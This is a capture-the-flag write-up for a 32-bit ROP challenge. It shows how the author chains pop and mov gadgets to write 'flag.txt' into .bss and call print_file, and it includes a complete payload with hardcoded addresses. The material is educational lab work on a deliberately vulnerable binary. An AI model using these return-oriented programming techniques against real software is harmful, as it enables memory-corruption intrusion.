 Rahn Stavar
## Write-up:
![[Pasted image 20231217171946.png]]
`NX` bit is set and no `PIE`.
Opening the `write432` binary and its companion shared library up in Ghidra, reveals that `main` calls `pwnme`, which has a buffer overflow vulnerability. 
![[Pasted image 20231217172856.png]]
In the shared library there is also a useful function called `print_file`. 
![[Pasted image 20231217172827.png]]
This function takes a pointer to a string, which is the name of the file to read and print. I will aim to use this to print the contents of the `flag.txt` file.
Unfortunately, the string "flag.txt" doesn't exist anywhere within the binary or shared library, so I will need to write this string to memory somewhere, then pass a reference to it to `print_file()`.
To do this I will need to use a ROP gadget to construct a write to memory primitive.
![[Pasted image 20231217173301.png]]
The highlighted gadget in the above picture looks useful, but to use this I will also need to find a way to move my write address into `edi` and my string into `ebp`.
![[Pasted image 20231217173552.png]]
Luckily, there is another useful ROP gadget within the binary which `pop`s two values from the stack and places them in the `edi` and `ebp` registers.
I should be able to chain these two ROP gadgets together to create my write to memory primitive.
Since I am working with 32-bit registers, and my filename is 8 bytes long, I will need to do the write in two parts.
For my write location, I will use the beginning of the `.bss` section, which is usually used for storing uninitialized variables, as writing to this section during runtime is a normal thing for a program to do.
![[Pasted image 20231217175135.png]]
Lastly, to begin building my exploit payload, I need to find the offset of the return address from the overflowed buffer's start address.
![[Pasted image 20231217174248.png]]
As shown in the above screenshot, the offset to the `EIP` register, which stores the return address, is 44 bytes.
Putting this all together, my exploit will roughly look like:
```
44 bytes of junk

addr of pop ROP gadget # 0x080485aa
addr of .bss section # 0x0804a020
"flag"
addr of mov gadget # 0x08048543

addr of pop ROP gadget
addr of .bss section + 4 bytes
".txt"
addr of mov gagdet

addr of pop ROP gadget
addr of .bss section + 8 bytes
"\x00" * 4 # null bytes to signal string termination
addr of mov gagdet

addr of print_file function # 0x080483d0
dummy return addr # 0x00000000
addr of .bss section
```
Exploit:
```bash
python2 -c 'print \
"\x00"*44 + \
"\xaa\x85\x04\x08" + \
"\x20\xa0\x04\x08" + \
"flag" + \
"\x43\x85\x04\x08" + \
"\xaa\x85\x04\x08" + \
"\x24\xa0\x04\x08" + \
".txt" + \
"\x43\x85\x04\x08" + \
"\xaa\x85\x04\x08" + \
"\x28\xa0\x04\x08" + \
"\x00\x00\x00\x00" + \
"\x43\x85\x04\x08" + \
"\xd0\x83\x04\x08" + \
"\x00\x00\x00\x00" + \
"\x20\xa0\x04\x08" \
' > payload.txt
```
Calling `write432` using this payload gives the following output:
![[Pasted image 20231217221422.png]]
As shown in the image, the exploit was successful using this payload and the flag was printed.
This was achieved by crating a write primitive by chaining ROP gadgets together, and using this to create a string representing the flag filename and then passing this to the `print_file` function., causing the contents of the flag to be printed.